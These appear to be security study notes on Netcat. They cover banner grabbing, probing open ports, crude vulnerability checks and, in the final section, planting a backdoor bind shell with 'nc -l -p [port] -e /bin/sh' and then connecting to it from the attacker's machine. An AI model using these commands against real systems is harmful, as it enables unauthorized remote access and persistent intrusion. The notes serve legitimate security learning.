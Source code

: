 ```$ echo QUIT | nc -v -w3 [target] [start port]-[end port]```
- An attacker's port scan might indicate a dozen or more open ports on the target 
- An attacker can quickly and easily use Netcat in client mode to connect to these ports and start entering raw data to see what listening service sends back.
- The listening service might indicate a particular application and version number, or the attacker might even be able to crash the target by entering large amount of junk on the open port.

Sending data to an open port on a target system is trivial, and can be accomplished using the following command:
```
$ nc -u [target_machine] [portnum]
```
![675a5b455abcbcf9e6807349e75a5540.png](../_resources/675a5b455abcbcf9e6807349e75a5540.png)


Reasons for using Netcat compared to other applications:
- The output from Netcat can be more easily redirected to a file. Using the simple redirection character > in UNIX and Windows causes any output from Netcat to be dumped to a file
- It is far easier to force Netcat to drop a connection than it is to force a telnet client to let go of a connection. 
- Telnet inserts some control data and environment variables across the connection to the open port when it tries to do a terminal negotiation with the other side, thinking it is a telnet server. This pollutes the communication stream the attacker is using.
- Telent puts its own error messages in the standard output stream. 
- Telnet cannot make UDP connections

## Netcat For Vulnerability Scanning 
In addition to scanning for open ports, Netcat can be used as a limited vulnerability-scanning tool. An attacker can write various scripts that implement vulnerability checks, and interact with the target systems using Netcat to transmit the data across the network. 
- Essentially, Netcat functions as a scanning engine. 

It comes packed with these tools:
- RPCs, with known vulnerabilities
- Network File System exports that allow anyone on the network to look at the target's local file system
- Weak trust relationships
- Bad passwords (such as "root", "administrator", etc)
- Buggy FTP servers

This handful of checks is very limited compared to what a full-blown Nessus scan can accomplish. Still, Netcat is very useful for quickly writing up a new vulnerability check in shell scripts and testing for holes. 

## Using Netcat To Create a Passive Backdoor Command Shell
One of the simplest and most powerful uses of Netcat is to provide command-shell access on a specifc port. When attackers connect to this listening port, they can simply enter commands to be executed on the target machine, giving them a fully interactive remote shell. 
- To create a backdoor shell on a machine, the attacker uses the ```-e``` option of Netcat, which tells Netcat to invoke a given program, in this case a command shell, when a connection is made. To accomplish this, the attacker first gains access to the victim machine, installs Netcat, and launches it using the following command:

Victim's Machine: ```nc -l -p [port] -e /bin/sh```
![95f93bc7e5a4646d7e6687360af70fb1.png](../_resources/95f93bc7e5a4646d7e6687360af70fb1.png)

An attacker can use Netcat in client mode to connect with this backdoor listener by typing the following command on the attacking machine:

Attacker's Machine: ```$ nc [victim_machine] [port]```
![0b6515937309c2a439f1de9351c23845.png](../_resources/0b6515937309c2a439f1de9351c23845.png)

```